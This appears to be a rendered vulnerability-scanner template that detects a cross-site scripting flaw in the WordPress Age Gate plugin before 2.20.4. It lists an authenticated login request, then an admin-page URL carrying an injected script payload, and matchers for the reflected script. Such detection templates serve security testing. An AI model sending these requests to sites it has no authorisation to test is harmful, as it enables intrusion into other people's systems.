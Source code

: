 - part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Age Gate \<2.20.4 - Cross-Site Scripting

## Description

- WordPress Age Gate plugin before 2.20.4 contains a cross-site scripting vulnerability. The plugin does not escape some URLs before outputting them back in attributes.

- severity - high
- tags - xss,authenticated,age-gate,wpscan,wordpress,wp-plugin,wp

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=age-gate&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>
  2. Age Gate Restriction Settings
- condition - and
